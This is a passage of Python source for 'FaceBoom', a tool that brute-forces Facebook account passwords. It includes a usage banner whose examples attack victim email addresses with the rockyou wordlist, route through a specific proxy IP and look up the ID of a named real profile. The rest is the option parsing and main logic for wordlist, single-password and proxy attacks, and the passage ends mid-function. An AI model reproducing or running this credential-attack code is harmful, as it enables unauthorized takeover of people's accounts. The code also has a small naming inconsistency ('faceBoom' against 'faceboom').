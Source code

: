         |
     |--------
     | python faceboom.py -t Victim@gmail.com -w /usr/share/wordlists/rockyou.txt
     |--------
     | python faceboom.py -t 100001013078780 -w C:\\Users\\Me\\Desktop\\wordlist.txt
     |--------
     | python faceboom.py -t Victim@hotmail.com -w D:\\wordlist.txt -p 144.217.101.245:3129
     |--------
     | python faceboom.py -t Victim@gmail.com -s 1234567
     |--------
     | python faceboom.py -g https://www.facebook.com/sohail.abid.77
     |--------
""")


def Main():
   parse.add_option("-t","--target",'-T','--TARGET',dest="target",type="string",
      help="Specify Target Email or ID")
   parse.add_option("-w","--wordlist",'-W','--WORDLIST',dest="wordlist",type="string",
      help="Specify Wordlist File ")
   parse.add_option("-s","--single","--S","--SINGLE",dest="single",type="string",
      help="Specify Single Password To Check it")
   parse.add_option("-p","-P","--proxy","--PROXY",dest="proxy",type="string",
                        help="Specify HTTP/S Proxy to be used")
   parse.add_option("-g","-G","--getid","--GETID",dest="url",type="string",
                        help="Specify TARGET FACEBOOK PROFILE URL to get his ID")
   parse.add_option("-u","-U","--update","--UPDATE", dest="update", action="store_true", default=False)
   (options,args) = parse.parse_args()
   faceboom = FaceBoom()
   target = options.target
   wordlist = options.wordlist
   single_passwd = options.single
   proxy = options.proxy
   target_profile = options.url
   update = options.update
   opts = [target,wordlist,single_passwd, proxy, target_profile, update]
   if any(opt for opt in opts):
     if not faceboom.cnet():
       errMsg("Please Check Your Internet Connection")
       sys.exit(1)
   if update:
    faceboom.updateFaceBoom()
    sys.exit(1)
   elif target_profile:
        faceboom.get_profile_id(target_profile)
        sys.exit(1)
   elif wordlist or single_passwd:
        if wordlist:
            if not os.path.isfile(wordlist):
                errMsg("Please check Your Wordlist Path")
                sys.exit(1)
        if single_passwd:
            if len(single_passwd.strip()) < 6:
                errMsg("Invalid Password")
                print("[!] Password must be at least '6' characters long")
                sys.exit(1)
        if proxy:
             if proxy.count(".") != 3:
                    errMsg("Invalid IPv4 ["+rd+str(proxy)+yl+"]")
                    sys.exit(1)
             print(wi+"["+yl+"~"+wi+"] Connecting To "+wi+"Proxy[\033[1;33m {} \033[1;37m]...".format(proxy if not ":" in proxy else proxy.split(":")[0]))
             final_proxy = proxy+":8080" if not ":" in proxy else proxy
             if faceBoom.check_proxy(final_proxy):